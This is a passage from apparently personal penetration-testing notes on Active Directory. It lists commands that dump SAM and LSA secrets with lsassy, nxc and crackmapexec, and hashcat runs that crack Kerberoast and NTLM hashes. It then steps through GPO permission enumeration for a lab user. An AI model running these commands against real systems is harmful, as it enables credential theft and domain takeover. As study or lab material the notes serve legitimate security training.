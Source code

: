 ```
lsassy.exe -o csv > creds.csv
```

### LSA Secrets Dumping using nxc


```
nxc smb 192.168.1.100 -u user -p pass --lsa nxc smb 192.168.1.100 -u user -p pass --lsa --local-auth 
```

```
crackmapexec smb 192.168.1.100 -u user -p pass --lsa
```

Dump both SAM and LSA in one command 
```
nxc smb target -u user -p pass --sam --lsa
````

### CRACKING HASHES

#### KERBEROASTING HASH
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

#### NTLM HASH
```
hashcat -m 1000 <hash> /usr/share/wordlists/rockyou.txt --force
```



## CHECK GPO PERMISSIONS
```
Get-NetGPO 
```
```
Get-GPPermission
```

#### GPO ABUSE PATH
first we ran
```
Get-NetGPO | select displayname
```
![[Pasted image 20250712165652.png]]
then 
```
Get-GPO -Name "Default Domain Policy"
```
![[Pasted image 20250712165722.png]]
```
Get-GPO -Name "Default Domain Controllers Policy"
```
![[Pasted image 20250712165739.png]]
then to check permissions for domain admin GP
```
Get-GPPermission -Guid 6ac1786c-016f-11d2-945f-00c04fb984f9 -TargetType User -TargetName charlotte
```
![[Pasted image 20250712165833.png]]
and for domain users GP
```
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName charlotte
```